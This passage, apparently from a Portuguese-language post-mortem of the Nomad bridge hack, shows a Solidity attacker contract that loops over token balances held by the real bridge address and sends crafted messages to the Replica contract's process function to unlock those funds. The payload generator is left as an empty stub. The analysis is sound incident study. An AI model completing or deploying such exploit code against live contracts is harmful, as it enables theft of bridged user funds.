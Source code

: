 *[Contrato de ataque inicial](https://gist.githubusercontent.com/gists-immunefi/4305df38623ddcaa11812a9c186c73ac/raw/e960b16512343fb3d6f3d8821486e7fb1452952c/Nomad%20Hack%20Analysis%203.sol)*
```solidity
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
 
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = IERC20(token).balanceOf(ERC20_BRIDGE);
 
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory) {}
}
```

A função de entrada do contrato de ataque é `attack`, que contém um loop simples para iterar sobre os saldos de diferentes tokens no endereço da ponte ERC20 (ERC20_BRIDGE). O ERC20_BRIDGE se refere ao contrato de ponte ERC20 da Nomad, que é o local onde os ativos bloqueados são armazenados.

Em seguida, com base no saldo, criamos uma mensagem para o ataque e a passamos como entrada para a função `process` do contrato Replica. Essa função enviará nossa mensagem falsa para o contrato de backend correspondente, desencadeando a solicitação de desbloqueio e transferência de ativos da ponte, colocando a ponte em nossas mãos.
